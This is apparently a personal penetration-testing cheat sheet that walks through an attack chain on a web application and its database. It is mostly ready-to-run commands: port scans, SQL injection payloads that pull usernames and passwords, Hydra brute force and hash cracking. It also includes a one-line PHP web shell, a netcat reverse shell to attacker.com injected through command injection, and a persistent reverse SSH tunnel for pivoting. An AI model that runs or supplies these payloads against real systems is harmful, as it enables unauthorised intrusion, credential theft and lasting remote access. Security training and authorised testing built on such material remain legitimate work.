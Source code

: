 # All Concepts

Propietario: Adrian Gisbert Cabello

### 1. Public Network Enumeration

1. **DNS Enumeration**:
    - `nslookup target.com`
    - `dig target.com any`
    - `host -l target.com dns-server`
2. **Port Scanning**:
    - Using Nmap:
        
        ```bash
        nmap -sS -p- -T4 target.com
        nmap -sV -sC -O -A target.com
        ```
        
    - Using Masscan:
        
        ```bash
        masscan -p1-65535 target.com --rate=1000
        ```
        
3. **Service Enumeration**:
    - Banner Grabbing:
        
        ```bash
        nc target.com 80
        HEAD / HTTP/1.1
        ```
        

### 2. Targeting the Web Application

### 2.1 Web Application Enumeration

1. **Inspecting URLs**:
    - Use browser developer tools to view source code, URLs, and scripts.
    - `wget -r -l 2 -P recon/ https://target.com/`
2. **Inspecting Page Content**:
    - Look for comments, hidden fields, and unusual inputs in HTML source.
3. **Viewing Response Headers**:
    - Use tools like `curl` or `Burp Suite` to inspect HTTP response headers.
        
        ```bash
        curl -I https://target.com
        ```
        
4. **Inspecting Sitemaps**:
    - Look for `sitemap.xml` in the root directory of the website.
        
        ```bash
        wget https://target.com/sitemap.xml
        ```
        
5. **Locating Administration Consoles**:
    - Check common admin paths: `/admin`, `/administrator`, `/login`, etc.

### 2.2 SQL Injection Exploitation

1. **Manual SQL Injection**:
    - Test inputs with `' OR 1=1--`.
    - Use UNION SELECT to extract data.
    
    ```sql
    ' UNION SELECT 1, username, password FROM users--
    ```
    
2. **Automated Tools**:
    - Use `sqlmap` for automated SQL injection testing.
        
        ```bash
        sqlmap -u "https://target.com/page?id=1" --dbs
        ```
        

### 2.3 Cracking the Password

1. **Hash Extraction and Cracking**:
    - Extract hashes from the database.
    - Use tools like `John the Ripper` or `Hashcat` to crack passwords.
        
        ```bash
        john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
        ```
        

### 2.4 Enumerating the Admin Interface

1. **Brute Force Login**:
    - Use tools like `Hydra` to brute force admin login.
        
        ```bash
        hydra -l admin -P /usr/share/wordlists/rockyou.txt target.com http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"
        ```
        

### 2.5 Obtaining a Shell

1. **File Upload Vulnerabilities**:
    - Upload a web shell through file upload functionality.
        
        ```php
        <?php system($_GET['cmd']); ?>
        ```
        
2. **Command Injection**:
    - Test for command injection vulnerabilities.
        
        ```bash
        ; nc attacker.com 4444 -e /bin/bash
        ```
        

### 2.6 Post-Exploitation Enumeration

1. **System Information**:
    - Gather information about the target system.
        
        ```bash
        uname -a
        whoami
        ```
        
2. **Network Information**:
    - Enumerate network interfaces and connections.
        
        ```bash
        ifconfig
        netstat -an
        ```
        

### 2.7 Creating a Stable Pivot Point

1. **Reverse SSH Tunnel**:
    - Use SSH to create a reverse tunnel for pivoting.
        
        ```bash
        ssh -R 9000:localhost:22 user@attacker.com
        ```
        

### 3. Targeting the Database

### 3.1 Enumeration

1. **Database Information**:
    - Enumerate databases and tables using SQL commands.
    
    ```sql
    SELECT schema_name FROM information_schema.schemata;
    ```
    
2. **Identifying DB Users**:
    - Extract database user information.
    
    ```sql
    SELECT user, host FROM mysql.user;
    ```
    

### 3.2 Attempting to Exploit the Database

1. **SQL Injection**:
    - Use SQL injection to manipulate the database.
2. **Privilege Escalation**:
    - Escalate privileges within the database.
    
    ```sql
    GRANT ALL PRIVILEGES ON *.* TO 'user'@'localhost';
    ```
    

### 4. Deeper Enumeration of the Web Application Server

### 4.1 More Thorough Post Exploitation

1. **File System Enumeration**:
    - Search for sensitive files and directories.
        
        ```bash
        find / -type f -name "*.conf"
        ```
        

### 4.2 Privilege Escalation

1. **SUID Binaries**:
    - Find and exploit SUID binaries.
        
        ```bash
        find / -perm -4000 -type f 2>/dev/null
        ```
        

### 4.3 Searching for DB Credentials

1. **Configuration Files**:
    - Search for database credentials in configuration files.
        
        ```bash
        grep -i 'password' /var/www/html/config.php
        ```
        

### 5. Creating a Stable Reverse Tunnel

### 5.1 Exploitation

1. **Reverse SSH Tunnel**:
    - Create a persistent reverse tunnel.
        
        ```bash
        autossh -M 0 -N -f -R 9000:localhost:22 user@attacker.com
        ```
        

### 6. Final Steps

### 6.1 Reporting

1. **Document Findings**:
    - Prepare detailed reports of all findings and exploits used.
2. **Mitigation Recommendations**:
    - Provide recommendations for mitigating the vulnerabilities found.